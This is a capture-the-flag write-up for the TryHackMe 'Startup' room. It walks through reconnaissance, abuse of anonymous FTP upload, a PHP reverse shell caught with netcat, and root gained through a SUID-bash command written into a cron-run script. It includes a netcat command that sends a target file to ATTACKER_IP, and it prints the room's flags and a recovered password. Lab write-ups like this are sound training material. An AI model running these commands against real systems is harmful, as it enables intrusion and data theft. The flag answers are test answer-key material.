


## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance
```shell-session
$ rustscan -a TARGET_IP --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


$ rustscan -a TARGET_IP -p21,22,80 --ulimit 5000 -t 2000 -b 4500 -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http?   syn-ack
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there's a `http` service on port 80 and `ftp` server running on port 21, let's try to (anonymously) log into the FTP server:
```shell-session
$ ftp TARGET_IP                                                          
Connected to TARGET_IP.
220 (vsFTPd 3.0.3)
Name (TARGET_IP:novusedge): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41121|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get important.jpg
...
ftp> get notice.txt
...
ftp> bye
221 Goodbye.

$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```


...
Upon examination, we find that the image does not contain any useful data. Let's check the service on port 80:


Nothing special, but then again, let's conduct some directory enumeration:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt
$ cat gobuster_common.txt           
/.hta                 (Status: 403) [Size: 277]
/.hta.xml             (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.xml        (Status: 403) [Size: 277]
/.htpasswd.xml        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/files                (Status: 301) [Size: 312] [--> http://TARGET_IP/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 277]
```

The location: `http://TARGET_IP/files` contains the same files as the `ftp` server. Let's check if we can upload some files using the `ftp` service and access them on the site:
```shell-session
$ echo "NovusEdge was here" > test.txt 
$ ftp TARGET_IP
Connected to TARGET_IP.
220 (vsFTPd 3.0.3)
Name (TARGET_IP:novusedge): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> put test.txt 
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||27106|)
553 Could not create file.

ftp> cd ftp
250 Directory successfully changed.
ftp> put test.txt 
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||41202|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|    19      218.29 KiB/s    00:00 ETA
226 Transfer complete.
19 bytes sent in 00:00 (0.06 KiB/s)
```

Success! Well, all that's left now is to upload a php reverse shell and gain initial access...

## Gaining Access

Uploading our php reverse shell program through the ftp service and accessing it with the browser:
```shell-session
ftp> put payload.php 
local: payload.php remote: payload.php
229 Entering Extended Passive Mode (|||48080|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|  2586       25.16 MiB/s    00:00 ETA
226 Transfer complete.
2586 bytes sent in 00:00 (9.45 KiB/s)

# Now try and open the payload file on a browser while listening for connections on port 4444 (or whatever you've chosen)

## On another session:
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 43280
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:01:39 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1211): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ whoami
whoami
www-data
```

And we're in! Let's stabilize the shell a bit and move onto checking out what the machine's got in store for us:
```shell-session
www-data@startup:/home$ python3 -c "import pty; pty.spawn('/bin/bash')"
<CTRL+Z>
$ stty raw -echo && fg
$ export TERM=xterm-256-color
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old

www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


> What is the secret spicy soup recipe?
> 
> Answer: `love`

Inside the `incidents` directory we find an interesting packet capture file;
```shell-session
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Mar  1 05:21 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

Let's fetch it and see what we can find from it:
```shell-session
# On our machine:
$ nc -lvp 8888 > sus.pcapng
listening on [any] 8888 ...
TARGET_IP: inverse host lookup failed: Unknown host
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 33238

# On target machine:
www-data@startup:/incidents$ nc -w 3 ATTACKER_IP 8888 < suspicious.pcapng
```

Upon inspecting the file and packet contents using wireshark, we find that another attacker has previously used a similar method to gain access and has left traces, and upon following the TCP stream from packet 35, we see that it contains the plain text dump for the shell session established by the attacker:


Following the contents of the stream, we quickly see a dump for the shadow file as well as the password for one of the users: `c4ntg3t3n0ughsp1c3`
Let's use that to our advantage and make do with some privesc.

## Privilege Escalation
Trying to `ssh` into the machine using the credentials: `lennie: c4ntg3t3n0ughsp1c3` we can get access to the user flag:
```shell-session
$ ssh  lennie@TARGET_IP 
lennie@TARGET_IP's password: c4ntg3t3n0ughsp1c3

$ bash
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

```


> What are the contents of `user.txt`?
> 
> Answer: `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

Now onto getting root privileges... We can abuse the logic for the `planner.sh` file present in lennie's home directory:
```shell-session
lennie@startup:~/scripts$ echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh
lennie@startup:~$ ls -lah /tmp/bash
-rwsr-sr-x 1 root root 1014K Mar  1 07:23 /tmp/bash
lennie@startup:~$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

> What are the contents of `root.txt`?
> 
> Answer: `THM{f963aaa6a430f210222158ae15c3d76d}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Startup by elbee](https://tryhackme.com/room/startup)
